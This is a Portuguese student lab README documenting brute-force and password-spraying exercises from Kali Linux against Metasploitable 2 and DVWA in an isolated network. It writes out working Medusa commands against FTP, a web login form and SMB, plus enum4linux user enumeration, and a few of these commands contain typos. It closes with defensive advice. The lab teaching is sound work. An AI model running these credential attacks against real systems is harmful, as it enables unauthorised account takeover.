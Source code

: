 # 🛡️ Projeto de Cibersegurança — Ataque de Força Bruta (Laboratório)

---

## 📋 Descrição
Projeto de laboratório para **simular ataques de força bruta** e password spraying em ambiente controlado, utilizando **Kali Linux** e ferramentas como **Medusa**, **Hydra** e **CrackMapExec**, com alvos em **FTP**, **formulário web (DVWA)** e **SMB** (com enumeração de usuários). O repositório contém documentação passo a passo, comandos executados, wordlists de exemplo e templates de registro de testes.

---

## 🧰 Ferramentas e Tecnologias
- Sistema atacante: **Kali Linux**
- Alvos vulneráveis: **Metasploitable 2**, **DVWA** (instâncias em VMs)
- Ferramentas de ataque/enumeração: **Medusa**, **Nmap**, **enum4linux**, **CrackMapExec (CME)**
- Virtualização: **VirtualBox** (modo Host-Only / Internal Network)
- Auxiliares: `ftp`, `smbclient`, `smbmap`

---

## ⚙️ Configuração do Ambiente (resumo)
1. Configuração das VMs (Kali + Metasploitable2/DVWA).
2. Definfição da rede isolada: **Host-Only** ou **Internal Network** para comunicação apenas entre VMs.
3. Snapshot das VMs antes de iniciar os testes (para restaurar o estado em algum caso de erro).
4. Usar comandos com NMAP para identificar o nosso alvo nos hosts ativos
5. Fazer enumeração e descobrir quais serviços estão disponiveis no sistema alvo

---

## 🚀 Execução do Projeto — passo a passo

### 1) Ataque de força bruta em FTP (laboratório)
**Objetivo:** testar a resistência de contas FTP a tentativas massivas de credenciais.

**Passo a passo:**
1. **Descobrir o serviço FTP**
   ```bash
   nmap -p 21 -sV 192.168.56.101
   ```

2. **Testar conectividade manualmente**
   ```bash
   ftp 192.168.56.101
   ```

3. **Preparar wordlists**
   - `users.txt` (usuários) e `passwords.txt` (senhas). em `wordlists/`.

4. **Executar ataque com Medusa**

   ```bash
   medusa -h 192.168.56.101 -U wordlists/users.txt -P wordlists/passwords.txt -M ftp -T 4 
   ```

---

### 2) Automação de tentativas em formulário web (DVWA)
**Objetivo:** simular força bruta em formulário de login web e demonstrar contramedidas.

**Passo a passo:**
1. **Acessar formulário web alvo**
   ```bash
   192.168.56.101/dvwa/login.php
   ```
2. **Preparar wordlists**
   - `users.txt` e `passwords.txt` em `wordlists/`.

4. **usar o medusa com as wordlists**
   o medusa vai substituir o user e o password por cada linha das wordlists users.txt e passwords.txt
   
   medusa -h 192.168.56.102 -U users.txt -P passwords.txt -M http \
  -m PAGE:/dvwa/login.php \
  -m FORM:username=^USER&password=^PASS&Login=Login 
  -m FAIL:"Login failed" -t 6
  
---

### 3) Password spraying em SMB com enumeração de usuários
**Objetivo:** testar password spraying (poucas senhas contra muitos usuários).

**Passo a passo:**
1. **Enumeração de usuários**
   - Ferramentas: `enum4linux`, `smbclient`.
   ```bash
   enum4linux -a 192.168.56.101 | tee enum4linux_output.txt
   ```
   - Verificar a Extração da lista a partir da enumeração.

2. **Preparar wordlists de users e passwords para spraying**
   -`smb_users.txt` 
   -`smb_passwords.txt` — poucas senhas comuns

3. **Executando password spraying com medusa**

   ```bash
   medusa -h 192.168.56.101 -U smb_users.txt P- smb_passwords.txt -M smbnt -t 2 -t 50
   ```
    após realizar os testes ira retornar o usuario e a senha para logar no sistema
4. **verificar o acesso**
     ```bash
     smbclient -L //192.168.56.101 -U mfsadmin
     ```
   

---

## 🧠 Conclusões e Recomendações 
- **Senhas fracas** facilitam comprometimento por força bruta; políticas de senhas e MFA reduzem risco.
- **Rate limiting** e **CAPTCHA** mitigam automação em formulários web.
- **Monitoramento/SIEM** é importante para detectar padrões de password spraying.
- Testes devem ser realizados em ambiente controlado com autorização por escrito.

---

## 👨‍💻 Autor
**Jonathan Belarmino** — Estudante / pesquisador.

Data: 2025-10-27

---
